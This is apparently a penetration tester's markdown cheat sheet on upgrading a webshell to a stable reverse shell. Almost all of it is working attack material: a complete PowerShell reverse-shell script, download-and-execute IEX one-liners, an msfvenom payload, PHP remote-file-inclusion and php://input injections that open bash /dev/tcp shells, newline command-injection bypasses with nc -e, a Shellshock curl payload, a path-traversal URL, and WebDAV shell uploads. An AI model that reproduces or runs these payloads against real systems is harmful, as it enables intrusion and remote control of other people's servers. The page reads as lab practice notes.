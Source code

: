 ```yaml
---
description: nc -nlvp 4444
---
```


# Webshell to stable shell

{% embed url="https://www.revshells.com/" %}

{% embed url="https://book.hacktricks.xyz/pentesting-web/command-injection" %}

### `rev.ps`

{% code overflow="wrap" %}
```powershell
#rev-shell.ps
$client = New-Object System.Net.Sockets.TCPClient("192.168.119.184",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

#feed
python -m http.server 8080
```
{% endcode %}

{% code overflow="wrap" %}
```
#setup listener
nc -nvlp 443

#run webshell command
powershell -c "IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.119.132:8080/rev.ps1')"

or

echo IEX(New-Object Net.WebClient).DownloadString("http://192.168.119.129/rev.ps1") | powershell -noprofile
```
{% endcode %}

### PHP for RFI

{% code overflow="wrap" %}
```
msfvenom -p linux/x64/shell_reverse_tcp LPORT=4444 LHOST=192.168.119.138 -f elf -o k  

python -m http.server 80

/rev.php
<?php shell_exec("curl http://192.168.119.138/k > /tmp/k;chmod +x /tmp/k; /tmp/k");?>

http://10.11.1.35/section.php?page=http://192.168.119.138/rev.php
```
{% endcode %}

### PHP file inclusion

{% code overflow="wrap" %}
```

curl -s --data "<?php system('bash -i >& /dev/tcp/192.168.119.136/4444 0>&1');?>" "http://10.11.1.8/internal/advanced_comment_system/index.php?ACS_path=php://input%00"

or shell_exec
```
{% endcode %}

### Modify request to limitation bypass `%0a`

{% code overflow="wrap" %}
```
vuln=127.0.0.1 %0a wget https://web.es/reverse.txt -O /tmp/reverse.php %0a php /tmp/reverse.php

vuln=127.0.0.1%0anohup nc -e /bin/bash 51.15.192.49 80

vuln=echo PAYLOAD > /tmp/pay.txt; cat /tmp/pay.txt | base64 -d > /tmp/pay; chmod 744 /tmp/pay; /tmp/pay

ip=127.0.0.1 %0a wget 192.168.119.148 %0a mv index.html rev.php %0a php rev.php&send=Ping+It%21
(cannot use - / symbols, so wget index.html disguised rev shell)
```
{% endcode %}

### Executing cgi / pearl reverse shell with RFI

<pre data-overflow="wrap"><code><strong>#after uploading the rev file (copy from kali webshells)
</strong><strong>http://10.11.1.141:10000/unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/var/tmp/rev.cgi
</strong></code></pre>

### Shellshock

{% code overflow="wrap" %}
```
curl -H "Cookie: () { :;}; /bin/bash -c /bin/bash -i >& /dev/tcp/192.168.119.125/4444 0>&1 &" http://10.11.1.71/cgi-bin/admin.cgi -s
```
{% endcode %}

### WebDav observed from nikto

{% code overflow="wrap" %}
```
curl -T '/home/kali/shell.aspx' 'http://192.168.64.122/' -u user:pw

cadaver ip
```
{% endcode %}

#### Curl upload&#x20;

```

curl -T './tmp/file' 'http://192.168.64.122/'
curl -X PUT http://192.168.52.42:8080/shell.jsp/ -d @- < shell.jsp
```

{% embed url="https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/put-method-webdav" %}
